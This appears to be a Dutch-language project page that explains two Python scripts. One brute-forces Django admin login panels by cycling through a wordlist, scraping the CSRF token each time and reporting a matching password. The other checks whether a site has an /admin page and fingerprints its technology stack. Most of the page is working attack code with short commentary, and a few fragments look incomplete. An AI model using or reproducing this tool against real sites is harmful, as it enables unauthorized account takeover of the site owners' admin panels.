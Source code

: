 
BRUTEFORCE

het neemt eerst de argumenten uit de commandline. en probeerd de klasse bfloginpanel aan te spreken


if __name__ == '__main__':
    try:
        domain = sys.argv[1]
        username = sys.argv[2]
        password = sys.argv[3]
        BFLoginPanel(domain,username,password)
    except IndexError:
        print(f"Command Line: python {sys.argv[0]} domain username wordlist_file")


hierna vult hij de varabelen en de wordlist. de woorden lijst kan van het internet komen of locaal

 self.domain = domain
        self.username = username
        self.password = password
        self.cookies = {}
        self.session = requests.Session()
        self.url = domain + "/admin/login/?next=/admin"
        self.protocol_mode = "Local File Mode"

      if (self.protocol_mode == "Internet Mode"):
            try:
                self.wordlist = list(set(requests.get(password).text.split('\n')))
            except Exception as e:
                print("[-] Error:\n", e)
                exit()
        else:
            try:
                self.f = open(password, "r")
                self.wordlist = list(set([(word.strip()) for word in self.f.readlines()]))
                self.f.close()
            except Exception as e:
                print("[-] Error:\n", e)
                exit()

daarna spreekt het de funtie bruteforce aan

self.BruteForce()




hier word er een poging gemaakt om in te loggen via de wordlist. dit blijft gebeurten totdat er een correct passwoord is gevonden of dat het programma door de lijst is. deze resultaaten worden in de cli geprint.

def BruteForce(self):
        count = 0
        # Start Brute Force
        for self.password in self.wordlist:
            for key, value in self.session.cookies.items():
                self.cookies[key] = value
            self.soup = BeautifulSoup(self.login_page.text, 'html.parser')
            self.csrf_input = self.soup.find('input', {'name': 'csrfmiddlewaretoken'})['value']

            url = self.domain + "/admin/login/?next=/admin"
            self.login_page = self.session.post(url, data={'csrfmiddlewaretoken': self.csrf_input,
                                                                'username': self.username,
                                                                'password': self.password}, cookies=self.cookies, headers=self.headers)
            if "CSRF" in self.login_page.text:
                print("[+] Error:\nCSRF token missing or incorrect.")
                exit()
            if "Please " not in self.login_page.text:
                print("[+] Found!: Username= " + self.username + " | Password= " + self.password + " - "+ str(self.login_page.status_code)+"\n\n")
                exit()
            else:
                count += 1
                print("(" + str(count) + ") Attempt: " + username + " - " + self.password + " - "+ str(self.login_page.status_code))





FINDPAGE
dit python script haalt de variablelen via de cli daarna stuurt het een request naar de /admin page om te zien dat deze bestaat. hierna voert het een check out om te zien met wat deze gebouwd is met de module builtwith.

import requests
import sys
import builtwith

# set url



url = "http://"+sys.argv[1]+"/admin"

def url_ok(site):
	# exception block
	try:
		# pass the url into
		# request.hear
		response = requests.head(site)
		# check the status code
		if response.status_code != 404:
			return True
		else:
			return False
	except requests.ConnectionError as e:
		return e

def admin(url):
        websitecheck1 = builtwith.parse(url)
        return(websitecheck1)

print(url)
if url_ok(url) == True:
    print("site bestaat, testing for /admin")  
    print(admin(url))
else:
    print("site bestaat niet")